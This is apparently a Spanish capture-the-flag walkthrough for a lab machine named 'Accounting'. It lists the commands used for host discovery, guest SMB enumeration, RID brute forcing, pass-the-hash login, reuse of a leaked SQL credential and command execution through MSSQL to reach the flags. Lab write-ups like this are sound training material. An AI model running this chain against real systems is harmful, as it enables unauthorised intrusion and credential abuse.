










Accounting

Escaneo para sacar IP
nmap -sn 192.168.56.0/24

Sacamos versiones de SO
nmap -O 192.168.56.114

probamos el smb con anónimo
smbclient -L //192.168.56.136/ -N

con usuario blanco no lo coje, pero guest si
smbclient //192.168.56.136/ -U ´Guest´ -N

Nos fijamos en el archivo NTUSER.DAT, parece un hash
NTUSER.DAT{53b39e88-18c4-11ea-a811-000d3aa4692b}

Sacamos mas info
enum4linux -t 192.168.56.136

Hacemos rid brute con usuario Invitado
netexec smb 192.168.56.136 -u ´Guest´ -p ´´ --rid-brute

en smb hemos visto que es un hash del usuario contrpaq
tenemos acceso
netexec smb 192.168.56.136 -u ´contpaqui´ -H ´53b39e8818c411eaa811000d3aa4692b´ --shares

accedemos con guest

Tenemos aqui un usuario sql muy jugoso


[SUACONNECTION]
User=Admin
Password=S5@N52V49
hay script para buscar los puertos abiertos ms sql
nmap -sS -p- --script ms-sql-info 192.168.56.136

conexion con sql
mssqlpwner sa@192.168.56.136 -port 49992 interactive



Aqui tenemos la flag de usuario



El archivo estaba oculto
exec "cmd /c dir /r C:\Users\admin\Desktop"

ya tenemos la flag root